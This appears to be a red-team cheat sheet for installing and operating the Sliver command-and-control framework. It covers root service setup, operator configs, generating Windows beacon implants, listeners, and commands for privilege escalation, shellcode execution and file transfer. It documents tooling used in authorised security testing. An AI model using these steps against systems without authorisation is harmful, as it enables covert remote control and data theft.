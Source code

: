 ## Installing Sliver
```bash

# Remove existing sliver stuff
sudo su
rm /bin/sliver
rm /bin/sliver-server
rm -rf /root/.sliver
rm -rf ~/.sliver

# Below is the easy way
####### IF YOU DO IT BELOW, BEWARE OF ERRORS WITH OUTDATED VERSIONS DUE TO HARDCODED VERSION IN WGET URL ##################
wget -O /bin/sliver-server https://github.com/BishopFox/sliver/releases/download/v1.5.43/sliver-server_linux 
chmod 755 /bin/sliver-server

wget -O /bin/sliver https://github.com/BishopFox/sliver/releases/download/v1.5.43/sliver-client_linux
chmod 755 /bin/sliver

# Unpack assets, as user
sliver-server unpack --force

# Windows C Compiler
sudo apt install mingw-w64



```
We can make it run on startup by making a service
```bash
vi /etc/systemd/system/sliver.service
# Paste below file
```

```
[Unit]
Description=Sliver
After=network.target
StartLimitIntervalSec=0

[Service]
Type=simple
Restart=on-failure
RestartSec=3
User=root
ExecStart=/bin/sliver-server daemon

[Install]
WantedBy=multi-user.target
```
Then
```bash
chmod 600 /etc/systemd/system/sliver.service
systemctl enable sliver && systemctl start sliver

# If you run into errors, it might be because sliver files already exist on your system, in /home/kali/.sliver, /root/.sliver, and ~/.sliver

# Check that the server is up
netstat -antopul


```

## Adding a New Operator
```bash
cd ~
sliver-server
# Review command
[server] sliver > help new-operator
# Listen on specific IP
[server] sliver > new-operator -n attacker -l tun0

# More generous allow

[server] sliver > new-operator -n attacker2 -l 0.0.0.0
# Enable multiplayer
[server] sliver > multiplayer

# New session
# Import the attacker config
sliver import attacker_0.0.0.0.cfg


```

## Armory
Sliver's armory is a plugin system
```bash
# Get help
sliver > armory
# Install all
sliver > armory install all
```


## Generating Beacons
There's a lot of factors. The below generates a beacon that is called 'http_beacon', is a windows executable, listens on 127.0.0.1 (default port 80)
```bash
sliver > generate beacon help
sliver > generate beacon --http 127.0.0.1:443 --name httpbeacon443 --os windows
```

## Setting up a Listener
```bash
http --lport 80
```
## Cheatsheet

| **Command**                                                               | **Description**                                              |
| ------------------------------------------------------------------------- | ------------------------------------------------------------ |
| `help`                                                                    | Displays the commands and their descriptions                 |
| `http -L <Local IP> -l <Port>`                                            | Set up HTTP listener                                         |
| `profiles new --http <Local IP>:<Port> --format shellcode <Profile Name>` | Create a new C2 profile                                      |
| `stage-listener --url tcp://<Localhost:Port> --profile <Profile name>`    | Set up Stager listener                                       |
| `generate --http <Local IP>:<Port> --os <OS>`                             | Generates a session implant                                  |
| `generate beacon --http <Local IP>:<Port> --os <OS>`                      | Generates a beacon implant                                   |
| `sessions`                                                                | Lists active/inactive sessions                               |
| `sessions -K`                                                             | Removes all sessions available or not                        |
| `sessions prune`                                                          | Removes unavailable sessions                                 |
| `sessions -k -i <session>`                                                | Removes the specified session                                |
| `beacons`                                                                 | Lists active/inactive beacons                                |
| `tasks`                                                                   | Lists the pending or completed tasks ran by the operator     |
| `getsystem`                                                               | Attempts to get a session as NT AUTHORITY\SYSTEM             |
| `interactive`                                                             | Tasks the beacon to spawn a session that becomes interactive |
| `cd`                                                                      | Change directory                                             |
| `ls`                                                                      | Lists the contents of the directory                          |
| `download <file/directory>`                                               | Downloads a file/directory                                   |
| `upload`                                                                  | Uploads a file                                               |
| `execute-assembly`                                                        | Executes a .NET assembly in a child process                  |
| `execute-shellcode`                                                       | Executes the specified shellcode in process                  |
| `multiplayer`                                                             | Enables multiplayer mode on the server                       |
| `armory install <alias/extension>`                                        | Installs the given alias/extension                           |
| `armory install all`                                                      | Installs all of the available aliases/extensions             |